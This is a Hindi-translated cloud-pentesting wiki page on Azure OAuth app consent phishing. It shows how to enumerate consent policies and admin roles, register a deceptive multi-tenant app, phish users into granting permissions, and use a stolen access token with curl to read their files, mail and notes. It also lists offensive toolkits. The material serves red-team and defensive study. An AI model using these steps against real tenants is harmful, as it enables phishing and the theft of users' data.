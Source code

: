 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure Applications** उन अनुमतियों के साथ कॉन्फ़िगर की जाती हैं जिनका उपयोग वे तब कर सकेंगी जब एक उपयोगकर्ता एप्लिकेशन की सहमति देता है (जैसे कि निर्देशिका को सूचीबद्ध करना, फ़ाइलों तक पहुँच प्राप्त करना, या अन्य क्रियाएँ करना)। ध्यान दें कि एप्लिकेशन उपयोगकर्ता की ओर से होगा, इसलिए भले ही ऐप प्रशासनिक अनुमतियों के लिए पूछ सकता है, यदि **उपयोगकर्ता को इसकी अनुमति नहीं है**, तो ऐप **प्रशासनिक क्रियाएँ करने में असमर्थ होगा**।

### App consent permissions

डिफ़ॉल्ट रूप से कोई भी **उपयोगकर्ता ऐप्स को सहमति दे सकता है**, हालाँकि इसे इस प्रकार कॉन्फ़िगर किया जा सकता है कि उपयोगकर्ता केवल **चयनित अनुमतियों के लिए सत्यापित प्रकाशकों के ऐप्स को सहमति दे सकें** या यहां तक कि **अनुमति को हटाने** के लिए उपयोगकर्ताओं को एप्लिकेशनों पर सहमति देने से रोक सकें।

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

यदि उपयोगकर्ता सहमति नहीं दे सकते हैं, तो **व्यवस्थापक** जैसे `GA`, `Application Administrator` या `Cloud Application` `Administrator` उन **एप्लिकेशनों पर सहमति दे सकते हैं** जिनका उपयोग उपयोगकर्ता कर सकेंगे।

इसके अलावा, यदि उपयोगकर्ता केवल **कम जोखिम** वाली अनुमतियों वाले ऐप्स पर सहमति दे सकते हैं, तो ये अनुमतियाँ डिफ़ॉल्ट रूप से **openid**, **profile**, **email**, **User.Read** और **offline_access** हैं, हालाँकि इस सूची में **और अधिक जोड़ना** संभव है।

और यदि वे सभी ऐप्स पर सहमति दे सकते हैं, तो वे सभी ऐप्स पर सहमति दे सकते हैं।

### 2 Types of attacks

- **Unauthenticated**: एक बाहरी खाते से **कम जोखिम वाली अनुमतियों** `User.Read` और `User.ReadBasic.All` के साथ एक एप्लिकेशन बनाएं, एक उपयोगकर्ता को फ़िश करें, और आप निर्देशिका की जानकारी तक पहुँच प्राप्त कर सकेंगे।
- इसके लिए फ़िश किए गए उपयोगकर्ता को **बाहरी टेनेट से OAuth ऐप्स स्वीकार करने में सक्षम होना चाहिए**।
- यदि फ़िश किया गया उपयोगकर्ता कोई ऐसा व्यवस्थापक है जो **किसी भी ऐप को किसी भी अनुमतियों के साथ सहमति दे सकता है**, तो एप्लिकेशन भी **विशिष्ट अनुमतियों का अनुरोध कर सकता है**।
- **Authenticated**: पर्याप्त अनुमतियों के साथ एक प्रिंसिपल को समझौता करने के बाद, **खाते के अंदर एक एप्लिकेशन बनाएं** और **फ़िश** करें कुछ **विशिष्ट** उपयोगकर्ता जो विशिष्ट OAuth अनुमतियों को स्वीकार कर सकते हैं।
- इस मामले में आप पहले से ही निर्देशिका की जानकारी तक पहुँच प्राप्त कर चुके हैं, इसलिए अनुमति `User.ReadBasic.All` अब दिलचस्प नहीं है।
- आप संभवतः **अनुमतियों में रुचि रखते हैं जिन्हें एक व्यवस्थापक को उन्हें प्रदान करना आवश्यक है**, क्योंकि सामान्य उपयोगकर्ता OAuth ऐप्स को कोई अनुमति नहीं दे सकता, इसलिए आपको **केवल उन उपयोगकर्ताओं को फ़िश करने की आवश्यकता है** (बाद में किन भूमिकाओं/अनुमतियों से यह विशेषाधिकार मिलता है, इस पर अधिक)।

### Users are allowed to consent

ध्यान दें कि आपको यह कमांड टेनेट के अंदर एक उपयोगकर्ता से निष्पादित करने की आवश्यकता है, आप बाहरी टेनेट से इस कॉन्फ़िगरेशन को नहीं ढूंढ सकते। निम्नलिखित CLI आपको उपयोगकर्ताओं की अनुमतियों को समझने में मदद कर सकता है:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- उपयोगकर्ता सभी ऐप्स के लिए सहमति दे सकते हैं: यदि **`permissionGrantPoliciesAssigned`** के अंदर आप पा सकते हैं: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` तो उपयोगकर्ता हर एप्लिकेशन को स्वीकार कर सकते हैं।
- उपयोगकर्ता सत्यापित प्रकाशकों या आपके संगठन के ऐप्स के लिए सहमति दे सकते हैं, लेकिन केवल उन अनुमतियों के लिए जो आप चुनते हैं: यदि **`permissionGrantPoliciesAssigned`** के अंदर आप पा सकते हैं: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` तो उपयोगकर्ता हर एप्लिकेशन को स्वीकार कर सकते हैं।
- **उपयोगकर्ता सहमति अक्षम करें**: यदि **`permissionGrantPoliciesAssigned`** के अंदर आप केवल पा सकते हैं: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` और `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` तो उपयोगकर्ता किसी भी चीज़ पर सहमति नहीं दे सकते।

यहां प्रत्येक टिप्पणी की गई नीतियों का अर्थ खोजने की संभावना है:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **एप्लिकेशन प्रशासक**

उन उपयोगकर्ताओं की जांच करें जिन्हें एप्लिकेशन प्रशासक माना जाता है (नए एप्लिकेशन स्वीकार कर सकते हैं):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **हमले का प्रवाह अवलोकन**

हमला कई चरणों में एक सामान्य कंपनी को लक्षित करता है। यह इस प्रकार हो सकता है:

1. **डोमेन पंजीकरण और एप्लिकेशन होस्टिंग**: हमलावर एक ऐसा डोमेन पंजीकृत करता है जो एक विश्वसनीय साइट के समान हो, उदाहरण के लिए, "safedomainlogin.com"। इस डोमेन के तहत, एक उपडोमेन बनाया जाता है (जैसे, "companyname.safedomainlogin.com") जो एक एप्लिकेशन को होस्ट करता है जिसे प्राधिकरण कोड कैप्चर करने और एक्सेस टोकन अनुरोध करने के लिए डिज़ाइन किया गया है।
2. **Azure AD में एप्लिकेशन पंजीकरण**: इसके बाद, हमलावर अपने Azure AD टेनेट में एक मल्टी-टेनेंट एप्लिकेशन पंजीकृत करता है, जिसका नाम लक्षित कंपनी के नाम पर रखा जाता है ताकि यह वैध प्रतीत हो। वे एप्लिकेशन के रीडायरेक्ट URL को उस उपडोमेन की ओर इंगित करते हैं जो दुर्भावनापूर्ण एप्लिकेशन को होस्ट करता है।
3. **अनुमतियों की सेटिंग**: हमलावर एप्लिकेशन को विभिन्न API अनुमतियों के साथ सेट करता है (जैसे, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)। ये अनुमतियाँ, एक बार उपयोगकर्ता द्वारा दी गई, हमलावर को उपयोगकर्ता की ओर से संवेदनशील जानकारी निकालने की अनुमति देती हैं।
4. **दुर्भावनापूर्ण लिंक वितरित करना**: हमलावर एक लिंक तैयार करता है जिसमें दुर्भावनापूर्ण एप्लिकेशन का क्लाइंट आईडी होता है और इसे लक्षित उपयोगकर्ताओं के साथ साझा करता है, उन्हें सहमति देने के लिए धोखा देता है।

## उदाहरण हमला

1. एक **नया एप्लिकेशन** पंजीकृत करें। यह केवल वर्तमान निर्देशिका के लिए हो सकता है यदि आप हमले की गई निर्देशिका से एक उपयोगकर्ता का उपयोग कर रहे हैं या किसी भी निर्देशिका के लिए यदि यह एक बाहरी हमला है (जैसे, निम्नलिखित छवि में)।
1. **रीडायरेक्ट URI** को भी उस अपेक्षित URL पर सेट करें जहाँ आप टोकन प्राप्त करने के लिए कोड प्राप्त करना चाहते हैं (`http://localhost:8000/callback` डिफ़ॉल्ट रूप से)।

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. फिर एक एप्लिकेशन सीक्रेट बनाएं:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. API अनुमतियाँ चुनें (जैसे, `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **वेब पृष्ठ निष्पादित करें (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** जो अनुमतियों के लिए पूछता है:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **शिकार को URL भेजें**
1. इस मामले में `http://localhost:8000`
6. **शिकारों** को **प्रॉम्प्ट स्वीकार करना होगा:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. **अनुरोधित अनुमतियों** तक पहुँचने के लिए **एक्सेस टोकन का उपयोग करें**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## अन्य उपकरण

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** इसे कॉन्फ़िगर करने के लिए [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) पर जाएं।
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## पोस्ट-एक्सप्लॉइटेशन

### फ़िशिंग पोस्ट-एक्सप्लॉइटेशन

अनुरोधित अनुमतियों के आधार पर, आप **टेनेंट के विभिन्न डेटा तक पहुँचने में सक्षम हो सकते हैं** (उपयोगकर्ताओं, समूहों की सूची... या यहां तक कि सेटिंग्स को संशोधित करना) और **उपयोगकर्ता की जानकारी** (फाइलें, नोट्स, ईमेल...)। फिर, आप इन अनुमतियों का उपयोग उन क्रियाओं को करने के लिए कर सकते हैं।

### एप्लिकेशन पोस्ट एक्सप्लॉइटेशन

पृष्ठ के एप्लिकेशन और सेवा प्रिंसिपल अनुभागों की जांच करें:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## संदर्भ

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
